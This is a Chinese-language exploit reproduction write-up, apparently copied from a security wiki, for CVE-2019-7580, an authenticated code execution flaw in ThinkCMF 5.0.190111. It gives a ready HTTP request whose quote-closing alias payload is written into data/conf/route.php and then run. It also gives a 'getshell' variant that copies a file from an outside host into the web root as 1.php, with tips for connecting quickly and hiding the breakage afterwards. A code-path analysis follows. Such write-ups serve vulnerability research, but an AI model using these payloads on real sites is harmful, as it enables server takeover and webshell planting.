






# （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞

> 原文：[http://book.iwonder.run/0day/ThinkCMF/CVE-2019-7580.html](http://book.iwonder.run/0day/ThinkCMF/CVE-2019-7580.html)

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 5.0.190111

## 三、复现过程

### 0x01 利用过程：

后台登录状态下， 1、将 payload 插入数据库并读取然后写入 data/conf/route.php 文件

```
POST /portal/admin_category/addpost.html HTTP/1.1
Host: www.0-sec.org
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2 
```

2、然后访问：

```
/portal/admin_category/index.html 
```

触发

```
include data/conf/route.php 
```

操作，执行 payload。下图以执行 sleep(5)作为演示。





#### 补充

poc 只是 phpinfo,用 eval 一句话，或者用 fputs 写马 等都会报错

直接 getshell exp

```
1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2 
```

这样网站也会崩掉

但是会再 public 下生成 1.php

得快速连上，再清空 thinkcmf\data\conf\route.php 文件 网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将 payload 插入数据库，写入 data/conf/route.php 文件

程序的入口是 index.php,在 index.php 中\think\App::run()执行应用。


在 App.php 的 run()函数 139 行，执行 sef::exec();


通过解析 url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。


通过反射执行`AdminCategoryController.php`的`addPost`函数。 在 addPost 函数中，从$this->request->param()函数中得到请求中的参数传递给$data。



然后通过$this->validata 调用父类(./simplewind/thinkphp/library/think/Controller.php)的 validata 函数进行过滤。然后将$data 传入`./app/portal/model/PortalCategoryModel.php`的 addCategory 函数进行实际的"添加分类"操作。


在 addCategory 函数中，184 行这一句：

```
$findRoute = $this->where('full_url', $fullUrl)->find(); 
```

通过查询数据中是否存在对应的 url，由于是第一次插入，所以这里并没有查到。 154 行和 155 行通过`setRoute`函数对数据库进行了两次插入操作。 根入`setRoute`函数，


其中$fullUrl 和$url 的值如截图所示。 继续跟，



在 34 行从数据库中查询查询相关数据，

```
$routes      = $this->where("status", 1)->order("list_order asc")->select(); 
```

在`addCategory`函数的 157 行调用

```
$routeModel->getRoutes(true); 
```

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的 payload。 写入前后对比如下：


#### 2、触发 payload 执行

带着登录的 cookie 访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行 url 路由检测


这里先

```
include app/route.php 
```



然后，

```
include data/conf/route.php 
```



最终执行我们的 payload：`phpinfo()`。


## 参考链接

> [https://xz.aliyun.com/t/3997#toc-6](https://xz.aliyun.com/t/3997#toc-6)
> 
> [https://www.t00ls.net/thread-55060-1-1.html](https://www.t00ls.net/thread-55060-1-1.html)

